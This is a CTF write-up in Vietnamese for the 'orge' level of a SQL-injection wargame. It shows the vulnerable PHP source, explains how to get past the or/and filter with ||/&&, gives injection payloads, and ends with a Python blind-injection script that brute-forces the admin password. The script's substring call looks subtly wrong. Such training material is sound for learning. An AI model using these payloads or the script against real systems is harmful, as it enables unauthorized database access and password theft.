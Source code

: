 orge
===
### Description
- Source: 
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

### Solution
- Phân tích code: Ở bài này chương trình vẫn filter `or and` nhưng chúng ta có thể thay thế bằng `|| &&`. Để giải quyết được bài này thì đầu vào của mình là `pw` phải bằng `pw` của admin ở trong database. Chúng ta có thể in ra được `Hello admin` với payload `?pw='||id='admin'-- -` và thông qua đó ta có thể brute được length của pw với payload `?pw='||id=admin%26%26length(pw)=$$` thông qua intruder trong phần mềm burp.

#### Payload
- Bài này là blind sqlinjection vì vậy chúng ta brute pw bằng substring với đầu ra là `Hello admin`
- Code:
```py
import requests
import string

url="https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
header = {'Cookie':'PHPSESSID=l0ppfki89ui4onrms8661i27el'}
flag = ''


for i in range(1,256):
	for j in string.printable:
		temp = flag+j
		param = f"pw='||id='admin'%26%26substring(pw,8,1)='{temp}'-- -"
		print(param)
		r = requests.get(url=url,params=param,headers=header)
		if "Hello admin" in r.text:
			flag += j
			print(flag)
			break
	if len(flag)==8:
		exit(0)
```